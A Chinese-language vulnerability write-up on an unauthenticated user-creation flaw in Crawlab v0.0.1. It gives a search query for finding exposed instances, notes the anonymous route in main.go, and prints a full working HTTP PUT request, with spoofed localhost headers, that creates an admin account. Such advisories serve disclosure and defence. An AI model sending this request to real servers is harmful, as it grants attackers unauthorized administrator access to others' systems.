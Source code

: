 # Crawlab users 任意用户添加漏洞

## 漏洞描述

Crawlab users 的 api 存在任意用户添加，且添加为未授权接口，可通过添加后在后台进一步攻击

## 漏洞影响

<a-checkbox checked>Crawlab v0.0.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Crawlab"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1639304614319-67b65509-55dd-4205-98cd-1ebdfb164e7b-20220313133455667.png)

首先查看路由位置 main.go 文件

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1639305087766-21949d4c-a274-45e2-b1ed-2b12a2b6450d.png)

```python
anonymousGrou 中为匿名可调用方法
authGroup	  中为认证可调用方法
```

可以看到 Putuser方法为添加用户，但存在匿名调用

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1639305199370-192f958d-1a96-4842-8f12-7dc32376074d.png)

根据字段生成添加用户的请求

```python
PUT /api/users HTTP/1.1
Host: 
Content-Length: 83
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: Hm_lvt_c35e3a563a06caee2524902c81975add=1639222117,1639278935; Hm_lpvt_c35e3a563a06caee2524902c81975add=1639278935
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

{"username":"testppp","password":"testppp","role":"admin","email":"testppp@qq.com"}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1639305372407-b81e6efc-2dde-403e-a7ad-ce5d0dd7cfa9.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1639305414874-3dc8bd9e-1d3d-44a0-a8a1-8c0d6affcddb.png)